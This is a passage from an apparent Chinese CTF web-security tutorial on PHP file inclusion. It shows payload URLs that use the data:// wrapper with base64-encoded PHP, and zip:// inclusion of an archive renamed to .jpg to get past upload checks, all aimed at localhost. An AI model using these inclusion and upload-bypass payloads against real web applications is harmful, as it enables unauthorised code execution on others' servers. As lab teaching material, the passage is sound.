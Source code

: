 ```
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

<img src="/images/ctf-web02/3.jpg" alt="3" style="zoom:100%;" />

<br>

***

<br>

# 5_zip:// & bzip2:// & zlib:// 协议

条件: `PHP.ini`中

- `allow_url_fopen:on`
- `allow_url_include :off/on`

作用：`zip:// & bzip2:// & zlib:// `均属于压缩流，**可以访问压缩文件中的子文件**，更重要的是**不需要指定后缀名**，可修改为任意后缀：jpg png gif xxx 等等。(将最终希望执行的文件压缩可以绕过很多对文件类型的验证)

示例1:

```
zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（**#编码为%23**）
```

压缩 `phpinfo.txt` 为 `phpinfo.zip` ，压缩包重命名为 `phpinfo.jpg`(绕过验证,假设只允许上传图片) ，并上传

然后访问:

```
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
```

<img src="/images/ctf-web02/4.jpg" alt="4" style="zoom:100%;" />

